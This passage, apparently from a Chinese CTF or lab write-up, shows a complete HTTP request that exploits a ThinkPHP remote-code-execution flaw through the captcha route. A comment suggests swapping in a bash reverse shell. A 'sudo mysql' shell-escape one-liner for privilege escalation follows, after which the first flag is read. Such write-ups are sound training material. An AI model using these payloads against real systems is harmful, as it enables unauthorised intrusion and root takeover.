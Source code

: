 构造 exp 如下，直接弹 shell 即可

```plain
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.144.193
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
# 可更改为 bash 反弹 shell，记得 url 编码即可
```

### sudo mysql 提权

反弹 shell 后，需要进行提权操作，执行如下命令

```plain
sudo mysql -e '\! /bin/sh'
```

参考：[https://gtfobins.github.io/gtfobins/mysql/](https://gtfobins.github.io/gtfobins/mysql/)

[![](assets/1710899037-58c203441341edd9ddfd526bad532997.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205317-2d377bfe-d56f-1.png)

成功读取到第一步 flag

[![](assets/1710899037-d33deeeed822ea84793dcc4346251efc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205331-360361e4-d56f-1.png)

